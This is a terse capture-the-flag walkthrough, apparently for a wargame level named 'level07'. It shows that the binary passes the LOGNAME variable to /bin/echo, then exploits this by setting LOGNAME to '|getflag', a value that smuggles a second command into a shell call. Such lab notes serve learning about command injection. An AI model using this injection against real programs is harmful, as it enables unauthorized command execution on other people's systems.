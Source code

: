 # ./level07
```
hexdump -C level07
```
-> ``00000680  4c 4f 47 4e 41 4d 45 00  2f 62 69 6e 2f 65 63 68  |LOGNAME./bin/ech|``

``env``

-> LOGNAME=level07

```
export LOGNAME="|getflag"
./level07
```
